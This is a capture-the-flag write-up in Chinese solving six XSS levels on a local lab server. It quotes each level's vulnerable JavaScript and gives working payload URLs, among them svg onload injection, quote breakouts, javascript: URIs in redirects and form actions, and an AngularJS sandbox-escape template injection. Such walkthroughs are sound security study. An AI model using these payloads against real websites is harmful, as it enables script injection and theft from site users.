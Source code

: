 # XSS

## Description

你能否过关斩将解决所有 XSS 问题最终获得 flag 呢？

## Solution

要一一對照所有漏洞太難了，不如我們來用 ZAP 配合 XSS 字典來 fuzz 吧

### Level 1

進入第一關 `http://127.0.0.1:3000/level1?username=test`

很明確可以 fuzz 的目標是 username=test 中的 test 字串

我使用以下字典完成 fuzz： https://github.com/payloadbox/xss-payload-list

![alt text](image.png)

有 reflected 的看一下 response 如果語法顯示合理，理論上表示攻擊成功，但實際上輸入瀏覽器有更高的安全標準，所以還是要多試幾個看看。

我在 google chrome 中輸入以下字串，成功完成攻擊:

- `http://127.0.0.1:3000/level1?username=veris--%3Egroup%3Csvg/onload=alert(/XSS/)//`

關鍵是利用 `<svg>` 來觸發 `onload` event，當網頁載入時會執行 `onload` event 中的 JavaScript code。

看起來大於小於符號的 html encode 並沒有被封鎖。

### Level 2

第二關不能無腦 fuzz 了，因為過濾機制擺到 client 了，查看 html code 可以得到以下代碼。

```JS
if(location.search == ""){
	location.search = "?username=xss"
}
var username = 'xss';
document.getElementById('ccc').innerHTML= "Welcome " + escape(username);
```

可以明確發現，我們的輸入會進到 username，而且未做防禦，是插入前才用 escape 過濾變數。

因此只要跳脫變數 `username`，就可以執行任意的 JavaScript code。

參考以下答案:

```JS
var username = 'baby'; alert(1); var a = '';
document.getElementById('ccc').innerHTML= "Welcome " + escape(username);
```

把 `baby'; alert(1); var a = '` 丟到 url encode 後，再放進 url 中，可以得到答案

- `http://127.0.0.1:3000/level2?username=baby%27%3B%20alert%281%29%3B%20var%20a%20%3D%20%27`

### Level 3

這題直接貼上上一題的答案，會失敗，因為得到以下結果

```JS
if(location.search == ""){
	location.search = "?username=xss"
}
var username = 'baby\'; alert(1); var a = '';
document.getElementById('ccc').innerHTML= "Welcome " + username;
```

發現核心因素是它把 baby 後變得跳脫用的 `'` replace 成 `\'`，所以我們需要把 `'` 用 `\\'` 替換掉

放入 url encode 後，再放進 url 中，可以得到答案

- `http://127.0.0.1:3000/level3?username=baby%5C%27%3B%20alert%281%29%3B%20var%20a%20%3D%20%27`

### Level 4

這題也是 client 端有較複雜的防護機制，我們需要先分析出它如何防止 xss 攻擊。

```JS
var time = 10;
var jumpUrl;
if(getQueryVariable('jumpUrl') == false){
	jumpUrl = location.href;
}else{
	jumpUrl = getQueryVariable('jumpUrl');
}
setTimeout(jump,1000,time);
function jump(time){
	if(time == 0){
		location.href = jumpUrl;
	}else{
		time = time - 1 ;
		document.getElementById('ccc').innerHTML= `页面${time}秒后将会重定向到${escape(jumpUrl)}`;
		setTimeout(jump,1000,time);
	}
}
function getQueryVariable(variable)
{
       var query = window.location.search.substring(1);
       var vars = query.split("&");
       for (var i=0;i<vars.length;i++) {
               var pair = vars[i].split("=");
               if(pair[0] == variable){return pair[1];}
       }
       return(false);
}
```

基於分析，發現會直接跳轉到 `jumpUrl` 的值，而沒有進行任何的過濾或驗證。因此，可以通過 `javascript 協議 URL` 來觸發 JavaScript 代碼。例如：

`http://127.0.0.1:3000/level4?jumpUrl=javaScript:alert(1)`

要等待時間倒數完

### Level 5

基本上也是直接解讀前端原始碼就有答案了

原始碼 as below

```JS
if(getQueryVariable('autosubmit') !== false){
	var autoForm = document.getElementById('autoForm');
	autoForm.action = (getQueryVariable('action') == false) ? location.href : getQueryVariable('action');
	autoForm.submit();
}else{
}
function getQueryVariable(variable)
{
       var query = window.location.search.substring(1);
       var vars = query.split("&");
       for (var i=0;i<vars.length;i++) {
               var pair = vars[i].split("=");
               if(pair[0] == variable){return pair[1];}
       }
       return(false);
}
```

得知只要遵循以下步驟，可以自訂 form 的 action 屬性：

1. 在 URL 中加入 `autosubmit=true` 參數。
2. 在 URL 中加入 `action=your_custom_url` 參數。

此時在 action 注入 XSS 攻擊: `javascript:alert('XSS')`

使用網址: `http://127.0.0.1:3000/level5?autosubmit=true&action=javascript:alert('XSS')`

### Level 6

到這題又沒有前端的程式碼，沒有方向下，再度用 ZAP 跑 Fuzzing。

然而難過的是 Fuzzing 竟然沒有結果，至此以 CTF 的題目來說，應該不是一般的 XSS 漏洞。

查看前端原始碼，看是否有線索。

![alt text](image-1.png)

發現是用 angular 寫的，抱著試一試的心態，利用 Angular 的 `{{ }}` 來嘗試注入 (template injection)。

使用 `http://127.0.0.1:3000/level6?username={{3*3}}`，得到運算結果 `9`。

![alt text](image-2.png)

這表示 Angular 的 `{{ }}` 確實是會執行的，接下來嘗試 XSS 攻擊。

進入別人寫的漏洞字典，一行一行嘗試。 ref: `https://gist.github.com/mccabe615/cc92daaf368c9f5e15eda371728083a3`

最後在 `{{%27a%27.constructor.prototype.charAt=[].join;$eval(%27x=1}%20}%20};alert(1)//%27);}}` 得到成功結果。

使用以下網址攻擊成功:

`http://127.0.0.1:3000/level6?username={{%27a%27.constructor.prototype.charAt=[].join;$eval(%27x=1}%20}%20};alert(1)//%27);}}`
